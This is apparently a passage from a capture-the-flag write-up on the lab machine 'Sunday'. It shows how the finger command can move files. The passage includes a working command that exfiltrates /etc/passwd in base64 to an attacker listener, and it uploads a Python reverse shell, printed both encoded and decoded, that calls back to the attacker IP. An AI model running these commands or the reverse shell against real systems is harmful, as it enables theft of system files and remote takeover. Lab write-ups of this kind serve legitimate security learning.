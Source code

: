 While working on this post, I was checking out [gtfobins](https://gtfobins.github.io/), and their page on finger shows how it can be used for file transfer. For example, to exfil the password file from Sunday, with the listener started locally:

```

root@sunday:~# finger "$(base64 /etc/passwd)"@10.10.14.5
[10.10.14.5]

```

```

root@kali# nc -lnvp 79 | base64 -d > passwd
listening on [any] 79 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 54768

root@kali# cat passwd
root:x:0:0:Super-User:/root:/usr/bin/bash
daemon:x:1:1::/:
...[snip]...

```

You can upload files to a target machine as well:

```

root@kali# cat shell.py | base64 | nc -lp 79

```

```

root@sunday:~# finger x@10.10.14.5 > shell.b64

```

The resulting file in this case had some IP info, separated with a newline, but we can clean that up:

```

root@sunday:~# cat  shell.b64
[10.10.14.5]
IyEvdXNyL2Jpbi9weXRob24KCmltcG9ydCBzb2NrZXQKaW1wb3J0IHN1YnByb2Nlc3MKaW1wb3J0IG9zCgpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm
5lY3QoKCIxMC4xMC4xNC41Iiw0NDMpKQpvcy5kdXAyKHMuZmlsZW5vKCksMCkKb3MuZHVwMihzLmZpbGVubygpLDEpCm9zLmR1cDIocy5maWxlbm8oKSwyKQpwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2gi
LCItaSJdKTsK

root@sunday:~# cat  shell.b64 | head -2 | tail -1 | base64 -d
#!/usr/bin/python

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.5",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);

```
